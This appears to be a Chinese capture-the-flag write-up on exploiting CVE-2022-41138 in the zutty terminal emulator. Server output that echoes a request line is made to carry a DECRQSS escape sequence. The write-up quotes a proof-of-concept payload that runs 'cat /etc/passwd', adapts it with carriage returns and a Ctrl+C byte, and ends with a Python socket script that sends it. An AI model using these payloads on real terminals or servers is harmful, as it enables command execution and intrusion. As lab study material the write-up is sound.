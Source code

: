 注意到题目里说的终端模拟器是指`zutty`，版本为`0.12`，立刻去查相关的CVE，查到了[这个链接](https://nvd.nist.gov/vuln/detail/CVE-2022-41138)。

> In Zutty before 0.13, DECRQSS in text written to the terminal can achieve arbitrary code execution.

是说如果我们能任意控制打印到`zutty`终端上的内容的话，就可以通过一个叫`DECRQSS`的东西执行任意命令。而这东西是个啥呢？查了一下发现还挺复杂，不过好在刚刚那个网页给了一个有用的[链接](https://bugs.gentoo.org/868495)，这个链接则给了一个利用此CVE的payload，以及`zutty`修复这个CVE的patch：

<img src="images/bb300cf1-25f4-44a3-add7-ae52849bcba8.png" alt="image-20241109191608825" style="zoom:50%;" />

这个`poc.txt`的内容如下：

```python
with open('poc.txt', 'rb') as f:
    print(f.read())
    
b'\x1bP$q\ncat /etc/passwd\n\x1b\\\n'
```

也就是说我们可以试图去构造类似于这种样子的payload，让服务端打印出这样的东西，就能执行一些命令了。

搞懂了这些以后，就知道我们需要注意服务端源代码的这一行：

```rust
println!("Received request: {}", request.lines().next().unwrap_or(""));
```

它会把我们发起的请求的第一行打到屏幕上，注意是**第一行**，这也意味着，如果按前面的payload那样在中间插入一些换行符`\n`，就达不到同样的效果，好在我们还可以用`\r`代替`\n`，所以我们可以把payload改成：

```raw
b'\x1bP$q\r???\r\x1b\\\n'
```

不过`???`处要填什么东西可以让服务退出呢？我一开始一直在想有什么让服务退出的命令，结果发过去发现一个都不能运行起来。后来才意识到，文件服务阻塞了终端，你命令能运行就怪了。

然后我想到平时我们自己在终端上让服务停下来，好像一般都是按<kbd>Ctrl</kbd> + <kbd>C</kbd>。查了一下发现这个组合键其实是向终端发送了一个`\x03`。

于是：

```raw
b'\x1bP$q\r\x03\r\x1b\\\n'
```

这样就可以拿到flag1了。

最终的解题代码：

```python
#!/usr/bin/env python3

import socket

payload = b'\x1bP$q\r\x03\r\x1b\\'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('127.0.0.1', 8000))
    s.sendall(payload)

```
